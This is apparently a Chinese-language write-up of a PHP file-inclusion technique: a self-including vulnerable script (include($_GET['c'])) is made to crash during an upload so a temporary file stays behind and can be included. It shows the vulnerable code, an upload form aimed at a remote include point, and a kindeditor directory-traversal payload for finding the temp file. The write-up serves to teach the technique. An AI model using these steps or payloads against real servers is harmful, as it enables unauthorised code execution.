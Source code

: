 测试环境：apache 2.4.9、php版本5.5.12

1. 创建两个文件，一个为存在包含点的self_include.php，一个构造的文件上传点
- self_include.php
```
&lt;?php
    include($_GET['c']);
?&gt;
```
- self_include.html
```
&lt;html&gt;

&lt;meta charset="utf-8"&gt;
&lt;body&gt;
    &lt;form name="upload" method="post" enctype="multipart/form-data" action="./self_include.php?c=self_include.php"&gt;
        File: &lt;input type="file" name="file"&gt;
        &lt;input type="submit" name="submit"&gt;
    &lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;
```

2. 我们让他自包含和文件上传同时进行，这里上传一个phpinfo文件。

[![](https://p1.ssl.qhimg.com/dm/1024_545_/t01535bfc094b27bfdb.png)](https://p1.ssl.qhimg.com/dm/1024_545_/t01535bfc094b27bfdb.png)

当我们点击提交以后，发现他报错了

> Maximum function nesting level of ‘100’ reached, aborting!

[![](https://p5.ssl.qhimg.com/dm/1024_492_/t01e848ff1aab7c7fde.png)](https://p5.ssl.qhimg.com/dm/1024_492_/t01e848ff1aab7c7fde.png)
- 这是因为在我本地装了xdebug插件，它默认只能trace 100条的信息，所以这里在php.ini的xdebug配置下加上一条：
```
xdebug.max_nesting_level=600
```

这里测试过大约包含到150次左右程序就会崩溃，就会在tmp目录下生成我们需要的临时文件。

3. 重启服务器，此时重新包含一次，提交

[![](https://p1.ssl.qhimg.com/dm/1024_515_/t0188ba30fd37546edc.png)](https://p1.ssl.qhimg.com/dm/1024_515_/t0188ba30fd37546edc.png)

可以看到这里生成了两个临时文件，说明这里经过了两个上传周期，之后php守护进程无法处理这种情况就会抛出一个无法访问异常。

4. 之后就可以直接利用包含点，愉快的包含我们上传的文件了

[![](https://p1.ssl.qhimg.com/dm/1024_588_/t011ff3efe43301d106.png)](https://p1.ssl.qhimg.com/dm/1024_588_/t011ff3efe43301d106.png)5. 所以在如果在远程服务器上的php脚本存在文件包含点的话，我们就可以在本地构造一个html文件，action指向他提交过去就行了。
- 就上面那题来说，最后为了找到文件名，用了kindeditor编辑器的目录遍历漏洞来找到临时文件的文件名
```
payload: /kindeditor/php/file_manager_json.php?path=../../../../tmp/
```
- 在实战中有其他两种方式可以包含到临时文件：
- 使用爆破的方式找出文件名
最容易爆的是三位数字，所以这里可以多尝试上传几次，直到有三位数字的临时文件生成。

